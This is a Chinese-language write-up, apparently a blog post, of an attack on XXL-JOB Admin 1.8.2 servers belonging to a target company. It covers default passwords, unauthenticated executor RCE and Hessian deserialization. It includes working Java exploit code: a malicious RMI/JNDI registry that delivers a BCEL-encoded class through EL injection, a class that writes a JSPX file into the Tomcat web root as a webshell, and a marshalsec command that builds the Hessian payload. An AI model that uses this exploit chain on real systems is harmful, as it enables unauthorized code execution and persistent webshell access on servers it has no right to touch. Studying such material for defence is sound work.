









# Attack Xxl-Job Admin 1.8.2

本文记录一下遇到xxl-job1.8.2后攻击过程中做的一些研究、心得。

在目标公司的资产扫描中，发现xxl-job-admin(web控制台) ，共stg-server、prd-server-1、prd-server2 三个目标。其中stg为测试网段，attacker网络互通，这为我们通过RMI进行RCE提供了便利，而prd环境无法外联。

在攻击过程中经过一番测试，并对比不同版本的回显信息，可以确定stg-server、prd-server-1版本为1.8.2，prd-server2版本为1.9.2或2.0.2。在两台1.8.2机器上，我们均没有发现弱口令。

## XXL-JOB简介

`https://github.com/xuxueli/xxl-job/tree/v1.8.2`

xxl-job是一款用JAVA编写的分布式定时任务管理工具，提供了`admin-console`web控制端与`executor`执行器客户端，因此我们需要在各机器上部署`Executor`客户端，随后通过控制台下发自定义的任务。1.x版本中默认部署为war包形式(tomcat)，2.x版本默认为sprint-boot jar。



在web控制台我们通过新增`GLUE`模式的任务，在对应的`executor`上可以执行任意代码。



控制台口令默认为`admin/123456`，且在写于配置文件中；控制台的`/API`接口的`RcpRequest`调用与执行器调用都需要一个token，而该token默认为空，一般开发者不会设置，这也造成了执行器未授权访问RCE：




## 利用点与思路

先在这里说一下我们目前可以得到xxl-job控制台的攻击点：

①控制台弱口令：通过硬编码的弱口令登录后台，不过只能在执行器上执行命令，无法控制控制台；

②反序列化漏洞：通过Hessian反序列化攻击控制台，麻烦的是目前gadeget都是RMI形式，需要服务器能外联；

③未授权访问：xxl-job的api接口未授权访问中，executor有代码执行的业务功能所以能直接RCE，而在web-console情况下我们没有发现有价值的利用点。

关于者三台服务器，我们利用Hessian反序列化拿下了stg-server服务器，并通过阅读stg-server源码，拿到了可登录prd-server-1的密码，但prd-server-1的`glue`模式被阉割调了，且prd-server-1与它相关的excutor均无法外联，所以我们最终没有拿下prd-server-1。prd-server-2也无法外联，但好在其`glue`模式没有被阉割，所以成功拿下了prd-server-2，关于如何拿下prd-server-2，笔者会在下篇文章讲述这个牛与牛奶的故事。

## xxl-job未授权RCE

github上关于xxl-job有如下未授权RCE利用工具：

```
https://github.com/OneSourceCat/XxlJob-Hessian-RCE/blob/main/src/main/java/com/example/App.java
```

通过研究代码，我们可以了解到，该工具利用未授权访问(空Token)下的`executor`的glue代码执行功能，直接通过`glue java`进行任意代码执行。另外注意到该工具使用的序列化方法是Hessian2 ，而1.8.2版本是Hessian 1，当然如果能利用，这点改改就好。



但控制台在启动时候，实例化的`xxlJobDynamicScheduler` bean中，只放入了`AdminBiz`，没有放入`ExecutorBiz`，所以我们无法像利用`excutor`未授权访问RCE一样来攻击控制台。

`spring/applicationcontext-xxl-job-admin.xml:64`

```
<bean id="xxlJobDynamicScheduler" class="com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler" init-method="init" destroy-method="destroy" >
		<!-- (轻易不要变更“调度器名称”, 任务创建时会绑定该“调度器名称”) -->
		<property name="scheduler" ref="quartzScheduler"/>
		<property name="accessToken" value="${xxl.job.accessToken}" />
	</bean>
```

`com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler#init`：



`com.xxl.job.core.rpc.netcom.NetComServerFactory#putService`：



## Hessian反序列化

web控制台`/Api`接口中，对用户POST的数据进行Hessian反序列化，反序列化后得到`RpcRequest`对象，进行相关服务调用。

`com.xxl.job.admin.controller.JobApiController`：



浏览`marshalsec`的代码，通过`HessianBase`实现的接口可以了解到，该关于`Hessian`反序列化可利用的gadget共有如下5个：

```
SpringPartiallyComparableAdvisorHolder :org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory
SpringAbstractBeanFactoryPointcutAdvisor : org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
Rome : com.rometools.rome.feed.impl.ToStringBean
XBean :org.apache.xbean.naming.context.WritableContext
Resin :com.caucho.naming.QName
```

关于xxl-job能利用的有Spring的两个，而且由于在JNDI解析过程中传入的`requiredType`不为`null`，导致无法利用LDAP远程加载任意类；另外服务器JDK版本不支持`untrust`情况下的RMI，所以我们也无法直接利用RMI加载任意类。`org.springframework.jndi.JndiTemplate#lookup(java.lang.String, java.lang.Class<T>)`



## RMI 加载BCEL

由于LDAP利用不了，参考这篇老外的翻译文章`https://xz.aliyun.com/t/3787`可知，在RMI限制利用情况下，我们依然可以通过EL表达式这条路径来执行命令。但为了便捷与持久化，这里将代码修改为BCEL加载任意类，方便我们执行JAVA代码。

这里整简单点，直接在目标机器上写jspx （rasp最近新增jspx拦截规则）

这里的RMI服务器比较危险，而且与服务器不是在一个TCP会话中完成交互的，这里仅作demo：

```java
package com;
import java.io.IOException;
import java.rmi.registry.*;
import com.needle.SpringControllerNeedle;
import com.needle.TomcatWriteJsp;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import org.apache.naming.ResourceRef;

/**
 * reference https://xz.aliyun.com/t/3787
 */
public class JndiServer {

    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
//        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance()" +
//                ".getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])']" +
//                "(['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
        String el = getEl();
        System.out.println(el);
        ref.add(new StringRefAddr("x", getEl()));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }

    private static String getEl() throws IOException {
        //Tomcat 写 jsp webshell
        byte[] needleData = Repository.lookupClass(TomcatWriteJsp.class).getBytes();
        //Spring 写 controller 内存马
        //byte[] needleData = Repository.lookupClass(SpringControllerNeedle.class).getBytes();
        String code = "$$BCEL$$"+ Utility.encode(needleData,true);
        return String.format("''.getClass().forName('%s" +
                "',true,''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance())",code);
    }
}
```

### TomcatWriteJsp代码

```java
package com.needle;
import java.io.File;
import java.io.FileOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class TomcatWriteJsp {
    static {
        String data = "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n" +
                "<jsp:root xmlns:jsp=\"http://java.sun.com/JSP/Page\"\n" +
                "  version=\"1.2\">\n" +
                "<jsp:directive.page contentType=\"text/html\"/>\n" +
                "<jsp:declaration>\n" +
                "</jsp:declaration>\n" +
                "<jsp:scriptlet>\n" +
                "out.write(\"I'm turn1tup!\");\n" +
                "</jsp:scriptlet>\n" +
                "<jsp:text>\n" +
                "</jsp:text>\n" +
                "</jsp:root>";
        try {
            Field f = Thread.currentThread().getClass().getSuperclass().getDeclaredField("threadLocals");
            f.setAccessible(true);
            Object obj = f.get(Thread.currentThread());
            f = obj.getClass().getDeclaredField("table");
            f.setAccessible(true);//org.apache.catalina.connector.RequestFacade@
            obj = f.get(obj);
            Object[] obj_arr = (Object[]) obj;
            for (int i = 0; i < obj_arr.length; i++) {
                Object o = obj_arr[i];
                if (o == null) continue;
                f = o.getClass().getDeclaredField("value");
                f.setAccessible(true);
                Object att = f.get(o);
                if (att != null && att.getClass().getName().equals("org.springframework.web.context.request" +
                        ".ServletRequestAttributes")) {
                    try {
                        Method getReq = att.getClass().getDeclaredMethod("getRequest", null);
                        Object req = getReq.invoke(att, null);
                        Method getRealPath = req.getClass().getDeclaredMethod("getRealPath", String.class);
                        String realPath = (String) getRealPath.invoke(req, "");
                        String path = realPath + "/foo.jspx";
                        File file = new File(path);
                        FileOutputStream fos = new FileOutputStream(file);
                        fos.write(data.getBytes());
                        fos.flush();
                        fos.close();
                    } catch (Exception e) {
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}


```

## 利用过程

开启我们的`JndiServer`，监听1097端口

通过marshalsec生成`hessian`POC，并通过`burpsuit`的`Paste from file`功能将该二进制文件拷贝到`Request`的Body中：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringAbstractBeanFactoryPointcutAdvisor rmi://127.0.0.1:1097/Object > marshalsec.hessian.bin
```

发送我们的EXP即可成功在当前应用目录下写入webshell



Reference:

https://github.com/OneSourceCat/XxlJob-Hessian-RCE

https://www.mi1k7ea.com/2021/04/22/XXL-JOB-Hessian2%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://github.com/mbechler/marshalsec

https://xz.aliyun.com/t/3787